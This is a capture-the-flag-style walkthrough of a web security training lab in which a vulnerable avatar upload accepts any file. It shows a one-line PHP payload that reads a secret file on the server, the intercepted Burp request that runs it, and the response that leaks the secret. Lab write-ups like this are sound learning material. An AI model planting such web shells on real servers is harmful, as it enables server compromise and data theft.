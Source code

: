 *This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner. You can log in to your own account using the following credentials: wiener:peter *

I created my exploit file as follows : 
```php 
echo file_get_contents('/home/carlos/secret');
```

Logged in with the given credentials, receiving this page when I clicked on *My account*. 

![Screenshot 2024-04-30 at 7.15.49 PM](images/Screenshot%202024-04-30%20at%207.15.49%20PM.png)

I uploaded a file and observed the requests made through Burp Intercept. Uploading the file will direct me to this page: 

![Screenshot 2024-04-30 at 7.19.43 PM](images/Screenshot%202024-04-30%20at%207.19.43%20PM.png)

Heading back to my account will trigger this intercept, where the server fetches my 'image' from the following directory: 
```Burp 
GET /files/avatars/exploit.php HTTP/2
Host: 0a59001f03aae38d81a88409008f002d.web-security-academy.net
Cookie: session=BWQ4BMNXY1INXrXc3cUEYajLQ8HOHMIU
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a59001f03aae38d81a88409008f002d.web-security-academy.net/my-account
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Te: trailers
```
I decided to send this to the Repeater and see the response I would get. I got the following, along with the secret: 
```Burp 
HTTP/2 200 OK
Date: Tue, 30 Apr 2024 11:27:28 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 32

xGokTf663mdi8wx85J0lXZQibwWvBBzc
```
